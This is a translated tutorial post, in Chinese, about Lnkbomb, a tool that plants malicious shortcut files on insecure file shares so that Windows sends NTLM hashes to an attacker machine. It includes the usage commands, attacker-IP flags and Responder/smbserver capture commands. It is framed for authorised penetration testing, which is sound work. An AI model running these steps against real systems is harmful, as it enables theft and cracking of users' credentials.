


# Lnkbomb:从不安全的文件共享中收集 NTLM 散列的恶意快捷方式生成器

> 原文：<https://kalilinuxtutorials.com/lnkbomb/>

.png)

**Lnkbomb** 用于上传恶意快捷文件到不安全的文件共享。该漏洞是由于 Windows 查找与快捷方式文件相关联的图标文件造成的。此图标文件可被定向到运行 Responder 或 smb 服务器的渗透测试机，以收集 NTLMv1 或 NTLMv2 哈希(取决于受害主机的配置)。然后，测试人员可以尝试使用 Hashcat 之类的工具离线破解这些收集到的散列。

有效载荷文件直接上传到测试人员在命令行中指定的不安全文件中。测试者还包括他们的 IP 地址，它被写入有效载荷。

## Python 用法

安装 Lnkbomb

请注意，该项目在 Windows 中工作一致。它在 Linux 中可能有问题。

`**git clone https://github.com/dievus/lnkbomb.git**`

将目录更改为 lnkbomb 并运行:

`**python3 lnkbomb.py -h**`

这将输出帮助菜单，其中包含以下标志:

`**-h, --help - Lists the help options**`

`**-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)**`

`**-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)**`

`**-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)**`

完整命令的示例包括:

`**python3 lnkbomb.py -t \\192.168.1.1\**Share -a 192.168.1.2`

`**python3 lnkbomb.py -r randomfilegenerated.recover**`

您需要利用 Responder 或 smbserver 之类的工具来捕获 NTLM 散列。
`**responder -I eth0 -dwf -v**`

或者

`**smbserver.py . . -smb2support**`

## 可执行用法

从页面右侧的发布链接下载 Lnkbomb。除了使用 lnkbomb.py 而不是 python3 lnkbomb.py 之外，所有标志都与 Python 版本相同

### 注意事项

请记住，该工具仅用于道德黑客和渗透测试目的。我不容忍任何行为，包括测试您目前无权测试的目标。

[**Download**](https://github.com/dievus/lnkbomb)